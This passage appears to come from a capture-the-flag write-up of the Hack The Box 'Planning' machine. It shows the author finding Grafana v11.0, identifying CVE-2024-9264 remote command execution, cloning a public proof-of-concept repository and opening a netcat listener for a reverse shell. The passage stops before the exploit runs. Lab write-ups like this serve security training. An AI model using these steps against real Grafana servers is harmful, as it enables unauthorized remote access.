 `/etc/hosts` is updated with the new subdomain.

```
fcoomans@kali:~/htb/planning$ grep planning.htb /etc/hosts
10.10.11.68     planning.htb grafana.planning.htb
```

I then login to http://grafana.planning.htb with the supplied credentials and find that the server is running Grafana v11.0 (83b9528bce).

![](images/Pasted%20image%2020250705153903.png)

#### 🐞 CVE-2024-9264

A quick Google search for `grafana v11.0.0 (83b9528bce) exploit` leads to **CVE-2024-9264**, a known **Remote Command Execution (RCE)** vulnerability.

A proof of concept for the CVE is found at https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit and the repo is cloned.

```
fcoomans@kali:~/htb/planning$ git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit.git
Cloning into 'CVE-2024-9264-RCE-Exploit'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 15 (delta 6), reused 4 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (15/15), 5.73 KiB | 1.91 MiB/s, done.
Resolving deltas: 100% (6/6), done.
```

### 🧪 Exploitation

A `nc` listener is started on the attack host.

```
fcoomans@kali:~/htb/planning$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
```
